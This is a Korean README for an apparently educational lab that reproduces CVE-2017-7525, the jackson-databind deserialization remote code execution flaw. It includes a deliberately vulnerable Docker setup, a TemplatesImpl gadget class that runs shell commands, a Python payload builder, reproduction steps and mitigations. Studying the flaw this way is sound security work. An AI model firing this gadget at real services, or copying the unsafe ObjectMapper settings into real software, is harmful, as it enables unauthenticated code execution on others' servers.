




# Jackson-databind Polymorphic Deserialization RCE (CVE-2017-7525)

**Contributors**

-   [송재표(@WOVY)](https://github.com/WOVY)

<br/>

### 요약

- jackson-databind 2.0.0-2.6.7 / 2.7.0-2.7.9 / 2.8.0-2.8.8 (2.6.7.1 / 2.7.9.1 / 2.8.9에서 수정)에서 발생하는 역직렬화 원격 코드 실행(RCE) 취약점입니다.
- CVSS 9.8 (Critical, AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H) — 인증 불필요, 원격 공격 가능.
- 참고: <https://nvd.nist.gov/vuln/detail/CVE-2017-7525>

<br/>

### 취약점 설명

`ObjectMapper.enableDefaultTyping()`으로 전역 폴리모픽 타입 처리가 켜진 상태에서 `Object`(또는 non-final 클래스) 필드를 역직렬화하면, JSON 안에 클래스 이름을 넣어 **공격자가 역직렬화 대상 클래스를 직접 지정**할 수 있다.

이때 클래스패스에 `com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl` 같은 "위험한" 클래스가 있으면 문제가 커진다. 이 클래스는 `_bytecodes` 필드에 임의의 컴파일된 Java 바이트코드를 담을 수 있고, `newTransformer()`가 호출되는 순간 그 바이트코드로 클래스를 정의·인스턴스화한다. jackson-databind는 2.8.9부터 이런 위험 클래스를 블랙리스트로 차단해 이 문제를 막았다.

> **JDK 버전 참고:** `TemplatesImpl._tfactory`는 `transient`라서 Jackson이 자동 바인딩하지 않는다. 최신 JDK 8 빌드에서는 이 필드가 `null`인 채로 남아 있으면 `newTransformer()`가 즉시 NPE를 던져 가젯이 폭발하지 못한다. 이 데모의 "템플릿 검증" 로직은 `TransformerFactory`가 비어 있으면 채워 넣는데, 정상적인 방어 코드처럼 보이지만 결과적으로 공격자의 바이트코드 실행을 도와준다 (`ExploitController.java` 참고).

이 PoC의 트리거 조건:
- `ObjectMapper.setVisibility(PropertyAccessor.FIELD, ANY)`로 private 필드까지 직접 바인딩 허용 — 실무에서도 흔한 설정 실수.
- 엔드포인트가 역직렬화된 객체가 `Templates`이면 "정상 템플릿인지 검증"한다며 `newTransformer()`를 호출 — 읽기 전용처럼 보이지만 실제로는 가젯을 실행시키는 지점.

<br/>

### 환경 구성

```
docker compose up -d --build
```

`pom.xml`에서 jackson-databind 버전을 취약 범위로 고정한다 (`jackson.version=2.8.8`). `ExploitController.java`에서 전역 기본 타이핑과 FIELD 가시성을 위험하게 설정하고, 역직렬화된 객체가 `Templates`이면 `newTransformer()`를 호출한다:

```java
mapper.enableDefaultTyping(ObjectMapper.DefaultTyping.NON_FINAL);
mapper.setVisibility(PropertyAccessor.FIELD, JsonAutoDetect.Visibility.ANY);
...
if (bean.obj instanceof Templates) {
    ensureUsableTemplates((TemplatesImpl) bean.obj);
    ((Templates) bean.obj).newTransformer();
}
```

<br/>

### 재현 절차

**1. 서버 정상 동작 확인 (benign 요청)**

`ExploitBean`도 non-final 클래스라 `NON_FINAL` 기본 타이핑에서는 루트 값에도 `["클래스명", {...}]` 래퍼가 필요하다.

**Linux / macOS / Git Bash**
```bash
curl -s -X POST http://localhost:8080/exploit \
  -H "Content-Type: application/json" \
  -d '["com.whsedu.jacksonpoc.ExploitBean",{"id":1,"obj":"hello"}]'
```

**Windows PowerShell**
```powershell
$body = '["com.whsedu.jacksonpoc.ExploitBean",{"id":1,"obj":"hello"}]'
Invoke-RestMethod -Uri http://localhost:8080/exploit -Method Post -ContentType "application/json" -Body $body
```

**Windows cmd.exe**
```
curl -s -X POST http://localhost:8080/exploit -H "Content-Type: application/json" -d "[\"com.whsedu.jacksonpoc.ExploitBean\",{\"id\":1,\"obj\":\"hello\"}]"
```

정상 echo 응답이 오면 서버가 살아있고 JSON 라운드트립이 되는 것이다.

**2. 악성 translet 가젯 컴파일 (선택)**

저장소에 컴파일된 `poc/Pwner.class`가 이미 포함되어 있어 이 단계는 생략 가능하다.

**Linux / macOS / Git Bash**
```bash
docker run --rm -v "$PWD/poc:/work" -w /work eclipse-temurin:8-jdk-jammy javac Pwner.java
```

**Windows PowerShell**
```powershell
docker run --rm -v "${PWD}/poc:/work" -w /work eclipse-temurin:8-jdk-jammy javac Pwner.java
```

**Windows cmd.exe**
```
docker run --rm -v "%cd%\poc:/work" -w /work eclipse-temurin:8-jdk-jammy javac Pwner.java
```

**3. PoC 실행**

**Linux / macOS / Git Bash**
```bash
python3 poc/poc.py
```

**Windows PowerShell / cmd.exe**
```
python poc/poc.py
```
(Windows에 `python3.exe`가 별도로 설치되어 PATH에 등록되어 있지 않으면 Microsoft Store 스텁으로 연결되어 아무 동작 없이 종료된다. 이 경우 `python`을 사용한다.)

`poc.py`는 `Pwner.class`를 base64로 인코딩해 `TemplatesImpl` 가젯 페이로드를 만들고 `/exploit`에 전송한다.

**4. RCE 검증**

`/exploit`은 JSON을 echo할 뿐이므로, 명령 실행 결과는 컨테이너 내부 파일로 확인한다 (`Pwner`가 `id`/`hostname` 결과를 `/tmp/pwned`에 기록):

**Linux / macOS**
```bash
docker compose exec jackson-poc cat /tmp/pwned
```

**Windows Git Bash**
```bash
MSYS_NO_PATHCONV=1 docker compose exec jackson-poc cat /tmp/pwned
```
(Git Bash는 `/tmp/pwned`를 자동으로 Windows 경로로 변환해버려 `No such file or directory` 오류가 나므로, 경로 변환을 꺼야 한다.)

**Windows PowerShell / cmd.exe**
```
docker compose exec jackson-poc cat /tmp/pwned
```

<br/>

### PoC 코드

**악성 translet (`poc/Pwner.java`)** — 생성자에서 명령을 실행하고 결과를 `/tmp/pwned`에 기록한다:

```java
public class Pwner extends AbstractTranslet {
    public Pwner() {
        try {
            Runtime.getRuntime().exec(new String[]{
                "/bin/sh", "-c",
                "id > /tmp/pwned 2>&1; hostname >> /tmp/pwned"
            });
        } catch (Exception e) { /* must not throw out of newInstance() */ }
        this.transletVersion = AbstractTranslet.CURRENT_TRANSLET_VERSION;
    }
    // transform()은 비워둠 — detonation은 생성자에서 끝난다
}
```

**페이로드 생성 (`poc/poc.py` 핵심)**

```python
def build_payload():
    with open(GADGET_CLASS, "rb") as f:
        bytecode_b64 = base64.b64encode(f.read()).decode()
    return [
        "com.whsedu.jacksonpoc.ExploitBean",
        {"id": 1, "obj": [
            "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl",
            {"_bytecodes": [bytecode_b64], "_name": "whsedu.Pwner",
             "_outputProperties": ["java.util.Properties", {}]},
        ]},
    ]
```

<br/>

### 실행 결과

Windows 11과 Ubuntu 24.04에서 클린 환경(이미지 삭제 후 재빌드) 재현을 직접 확인했다.

- `docker compose ps` — 컨테이너 `Up` 상태 확인.
  

- benign 요청 — 정상 echo 응답.
  

- `poc.py` 실행 — HTTP 200, 역직렬화된 `TemplatesImpl` 객체가 echo됨 (예외 없이 처리됨).
  

- RCE 검증 — 컨테이너 내부 `/tmp/pwned`에 `id`/`hostname` 실행 결과가 기록됨.
  

<br/>

### 대응 방안

1. jackson-databind를 2.6.7.1 / 2.7.9.1 / 2.8.9 이상으로 업그레이드 (해당 버전부터 `TemplatesImpl` 등이 기본 블랙리스트에 포함됨).
2. `enableDefaultTyping()`을 신뢰할 수 없는 입력에 무분별하게 사용하지 않기. 필요하면 Jackson 2.10+의 `PolymorphicTypeValidator`로 허용 클래스를 화이트리스트로 명시.
3. `PropertyAccessor.FIELD`를 `ANY`로 광범위하게 열지 말고, 필요한 필드만 `@JsonProperty`로 명시적으로 노출.
4. `@JsonTypeInfo` + `@JsonSubTypes`로 역직렬화 가능한 서브타입을 애플리케이션이 직접 등록한 목록으로 제한.
5. 신뢰할 수 없는 역직렬화 결과 객체에 대해 "정상 동작하는지 확인"한다며 메서드를 호출하는 것 자체가 위험할 수 있음을 인지 — 역직렬화 직후 임의 메서드 호출은 최대한 피할 것.

<br/>

### 참고

- [NVD - CVE-2017-7525](https://nvd.nist.gov/vuln/detail/CVE-2017-7525)
- [FasterXML/jackson-databind Security Advisories](https://github.com/FasterXML/jackson-databind/wiki/Deserialization-Vulnerabilities)
- Alvaro Muñoz, Oleksandr Mirosh, "Friday the 13th: JSON Attacks" (Black Hat USA 2017)
